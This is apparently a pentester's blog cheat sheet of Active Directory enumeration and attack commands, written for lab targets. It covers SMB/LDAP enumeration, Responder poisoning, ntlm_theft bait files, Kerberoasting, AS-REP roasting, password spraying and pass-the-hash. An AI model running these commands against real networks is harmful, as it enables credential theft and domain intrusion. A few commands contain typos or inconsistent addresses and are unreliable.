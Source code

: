 ```yaml
---
layout: post
title: Active Directory Enumeration
date: '2023-11-13 05:53:29 +0300'
image: /assets/img/cover_images/44.png
categories: [Active Directory, Enumeration]
---
```


## Enumeration with No creds
### Smb enumeration
```bash
smbmap -H <ip>
```
```bash
smbmap -u 'guest' -p '' -H <ip>
```
```bash
smbclient -L <ip> -u ''
```
```bash
smbclient //<ip>/<share> -c 'recurse;ls'
```
### Rpc enumeration
```bash
rpcclient -U '' -N <ip>
enumdomusers
```
### Ldap enumeration
```bash
nmap -n -sV --script "ldap* and not brute" -p 389 <ip>
```
```bash
ldapsearch -H ldap://<ip> -x -s base namingcontext
```
```bash
ldapsearch -H ldap://<ip> -x -b"DC=htb,DC=local"
```
### Network poisoning
```bash
responder -I eth0 -A
```
### Extract possible usernames
```
NameSurname
Name.Surname
NamSur
Nam.Sur
NSurname
N.Surname
SurnameName
Surname.Name
SurnameN
Surname.N
```
### Kerbrute
```bash
nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.real='test.local', userdb=usernames.txt <ip>
```
```bash
kerbrute userenum -d test.local usernames.txt
```
### NTLM Creds
```bash
sudo mount -t cifs -o 'user=pl4int3xt' //10.10.10.100/Department /mnt/sync
```
```bash
ls /mnt/sync -laR
```
[smcacls documentation](https://lists.samba.org/archive/samba-technical/2010-June/071390.html)
```bash
for i in $(ls /mnt/sync); do echo; smbcacls --no-pass //10.10.10.100/Department $i
```
[ntlm theft](https://github.com/Greenwolf/ntlm_theft)
```bash
responder -I tun0
```
```bash
python3 ntlm_theft.py -g all -s 10.10.10.100 -f test
```
```bash
cp test/* /mnt/sync/writable_share 
```
## Enumerating with creds
### Kerberoasting
```bash
GetUserSPNs.py -request -dc-ip 10.10.10.100 <DOMAIN.FULL>/<USERNAME> -outputfile hashes
```
### ASREPRoast
```bash
GetNPUsers.py -userfilr users.txt -dc-ip <ip> --outputfile ASREPHash -request '<domain>/'
```
### Getusers
```bash
GetADUsers.py -all -dc-ip 10.10.10.110 domain.com/username
```
### Crackmapexec
```bash
crackmapexec winrm -u test -p test --continue-on-success 10.10.10.100
```
```bash
crackmapexec smb --local-auth 10.10.10.10/23 -u user -H hash 
```
```bash
evil-winrm -i 10.10.10.100 -u test -p password123
```